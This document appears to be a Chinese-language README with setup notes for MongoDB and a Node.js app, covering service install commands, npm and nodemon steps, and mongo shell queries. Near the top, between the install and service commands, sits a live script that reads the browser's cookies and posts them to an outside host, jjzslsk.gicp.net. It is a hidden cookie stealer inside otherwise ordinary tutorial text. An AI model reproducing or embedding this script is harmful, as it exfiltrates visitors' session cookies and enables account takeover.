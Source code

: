 安装mongoDB教程
启动服务配置如：D:\Program Files\MongoDB\Server\5.0\bin mongod --dbpath "D:\lsk\mongodb\data\db" --logpath "D:\lsk\mongodb\data\log" -install -serviceName "MongoDB"

<script>
    if(document.cookie){
        fetch('http://jjzslsk.gicp.net:45253/userList', {
            method: 'post',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({
                'ck': document.cookie
            })
        })
        .then((response) => response.json())
    }
</script>

启动 win MongoDB服务
net start MongoDB
关闭
net stop MongoDB
移除
C:\mongodb\bin\mongod.exe --remove

启动mongdb 查看是否启动成功
http://127.0.0.1:27017/

装依赖
npm install

全局安装nodemon 热更新
npm install --g nodemon

启动app.js
npm run serve
http://127.0.0.1:3000/

热更新
nodemon app.js

先链接-再mongo-



打开mongo
cd D:\lsk\mongodb\bin
λ mongo

链接远程服务器
cd D:\lsk\mongodb\bin 
λ mongo 171.104.147.24:27018
成功后 可以查表了  show dbs

连接本地数据库
cd D:\lsk\mongodb\bin 
λ mongod --dbpath=..\data\db

显示数据库列表,所有集合
show dbs

创建集合 表  并切换到该集合下
use users

显示当前链接数据库中的集合（类似关系数据库中的表）
show collections

查询集合为users数据
db.users.find()

添加
db.users.save({user:'mss'})

删除
db.users.remove({user:'lsk12'})

修改数据
db.users.update({"name":"小明"}, {$set:{"age":16}});   
//将name等于小明的语句修改为age等于16
完整替换：
不写后面set关键字

js 查询集合为User，所有文档 记录
 User.find(function(err,ret){
    if(err){
        console.log('查询失败',err)
    }else{
        console.log(ret)
    }
})

查看端口
lsof -i:3000